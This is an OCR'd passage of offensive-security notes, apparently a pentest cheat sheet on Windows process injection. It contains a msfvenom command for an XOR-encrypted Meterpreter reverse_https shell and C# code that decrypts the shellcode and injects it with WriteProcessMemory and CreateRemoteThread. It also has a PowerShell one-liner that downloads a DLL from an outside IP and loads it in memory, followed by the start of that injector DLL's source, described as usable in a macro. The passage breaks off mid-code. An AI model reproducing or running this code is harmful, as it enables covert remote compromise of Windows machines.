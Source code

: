                 // msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a
                byte[] buf = new byte[567] {0x9d,0x89,0xee,0x61,0x61,0x61,
    0x01,0x50,0xb3,0xe8,0x84,0x05,0xea,0x33,0x51,0xea,0x33,0x6d,
    ..........................................................;

                // XOR-decrypt the shellcode
                for (int i = 0; i < buf.Length; i++)
                {
                    buf[i] = (byte)(buf[i] ^ (byte)'a');
                }

                IntPtr outSize;
                WriteProcessMemory(hProcess, addr, buf, buf.Length, out outSize);
                IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            }
        }
    }



#### PowerShell DLL Reflective Injector (Classic Method):

    //32 bit - injects shellcode into OneDrive by default (or you can pick another 32bit)
    //Test from 32bit PowerShell
    //can be used in Macro

    msfvenom -p windows/meterpreter/reverse_https LHOST=tun0 LPORT=443 EXITFUNC=thread -f csharp --encrypt xor --encrypt-key a

    [System.Reflection.Assembly]::Load((New-Object System.Net.WebClient).DownloadData('http://192.168.45.224/ClassicProcessInjectorDLL.dll')).GetType('ClassicProcessInjectorDLL.MyClass').GetMethod('injector').Invoke(0, $null)

    ###########ClassicProcessInjectorDLL.dll hosted:###########
    using System;
    using System.Diagnostics;
    using System.Runtime.InteropServices;
    using System.IO;
    using System.Net;

    namespace ClassicProcessInjectorDLL
    {
        public class MyClass
        {
            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

            [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
            static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

            [DllImport("kernel32.dll")]
            static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
